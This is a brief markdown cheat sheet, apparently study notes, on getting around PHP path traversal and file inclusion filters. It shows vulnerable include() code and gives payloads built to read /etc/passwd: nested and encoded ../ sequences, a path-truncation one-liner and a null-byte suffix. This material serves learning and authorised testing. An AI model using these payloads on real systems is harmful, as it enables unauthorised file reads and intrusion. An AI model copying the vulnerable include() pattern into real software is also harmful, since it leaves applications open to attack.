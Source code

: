 ## Non-Recursive Path Traversal Filters
Deletes substrings of ../ to avoid path traversals
```php
$language = str_replace('../', '', $_GET['language']);
```

Solution:
```
....//....//....//etc/passwd
..././..././..././etc/passwd
....\/....\/....\/etc/passwd
....////....////....////etc/passwd
```

## Encoding

**../
```
%2e%2e%2f
```


## Approved Paths
Developers use regex to make sure the file is under the ./languages directory:
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

Solution:
1. Fuzz for directories
2. Examine requests sent by the existing forms


## Appended Extension (.php)
Only work before PHP version 5.3/5.4:

**Path Truncation
1. Start with a non-existent directory
2. Reach 4096 characters to truncate the .php
```url
?language=non_existing_directory/../../../etc/passwd/./././././ REPEATED ~2048 times]
```
```
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

**Null Bytes
Only works before PHP version 5.5:

End string with a null byte
```
/etc/passwd%00
```


